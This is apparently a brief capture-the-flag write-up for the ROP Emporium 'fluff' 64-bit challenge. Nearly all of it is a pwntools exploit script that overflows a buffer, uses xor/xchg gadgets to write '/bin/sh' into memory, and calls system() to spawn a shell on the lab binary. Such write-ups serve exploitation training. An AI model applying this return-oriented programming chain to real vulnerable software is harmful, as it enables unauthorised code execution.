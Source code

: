 
## fluff64

The default output of ROPgadget couldn't help us find the useful gadget in 64 bit binary, but the [depth](http://www.giantbranch.cn/2017/12/18/rop%20emporium%20challenges%20wp/) optarg could solve it. Moreover, writing 8 bytes once time in a gadget increases the utilization of stack.

```python
from pwn import *

p = process("./fluff")

# 0x0000000000400822 : xor r11, r11 ; pop r14 ; mov edi, 0x601050 ; ret
xor_r11_r11 = 0x0000000000400822
# 0x0000000000400832 : pop r12 ; mov r13d, 0x604060 ; ret
pop_r12 = 0x0000000000400832
# 0x000000000040082f : xor r11, r12 ; pop r12 ; mov r13d, 0x604060 ; ret
xor_r11_r12 = 0x000000000040082f
# 0x0000000000400840 : xchg r11, r10 ; pop r15 ; mov r11d, 0x602050 ; ret
xchg_r11_r10 = 0x0000000000400840
# 0x000000000040084e : mov qword ptr [r10], r11 ; pop r13 ; pop r12 ; xor byte ptr [r10], r12b ; ret
write_eight_bytes = 0x000000000040084e
# 0x00000000004008c3 : pop rdi ; ret
pop_rdi = 0x00000000004008c3

write_start_address = 0x006010f0
system_plt_address = 0x00000000004005E0

payload = ""
payload += "A" * (0x20+8)
payload += p64(xor_r11_r11)
payload += "B" * 8
payload += p64(pop_r12)
payload += p64(write_start_address)
payload += p64(xor_r11_r12)
payload += "B" * 8
payload += p64(xchg_r11_r10)
payload += "B" * 8
payload += p64(xor_r11_r11)
payload += "B" * 8
payload += p64(pop_r12)
payload += "/bin/sh\x00"
payload += p64(xor_r11_r12)
payload += "B" * 8
payload += p64(write_eight_bytes)
payload += "B" * 8
payload += p64(0)
payload += p64(pop_rdi)
payload += p64(write_start_address)
payload += p64(system_plt_address)

p.sendline(payload)
p.interactive()
```
